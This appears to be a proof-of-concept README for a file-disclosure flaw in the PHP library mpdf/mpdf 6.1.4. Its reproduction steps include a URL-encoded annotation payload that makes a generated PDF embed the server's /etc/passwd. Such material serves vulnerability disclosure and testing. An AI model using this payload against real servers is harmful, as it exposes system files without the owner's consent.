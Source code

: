 ## POC for PHP package `mpdf/mpdf`

- Issue [#356](https://github.com/mpdf/mpdf/issues/356)
- [Repository](https://github.com/mpdf/mpdf)


### Steps to reproduce:

1. Install a vulnerable version of `mpdf/mpdf`: ```composer require mpdf/mpdf:6.1.4```
2. Start the website locally: ```php -S localhost:8000```
3. In the browser, go to ```http://localhost:8000/index.php?url=%3Cannotation%20file=%22/etc/passwd%22%20content=%22/etc/passwd%22%20icon=%22Graph%22%20title=%22Attached%20File:%20/etc/passwd%22%20pos-x=%22195%22%20/%3E```
4. A PDF file will be generated with a malicious annotation tag. If you download the pdf and click the annotation, you will see that it opens the stolen server file, in this case ```/etc/passwd```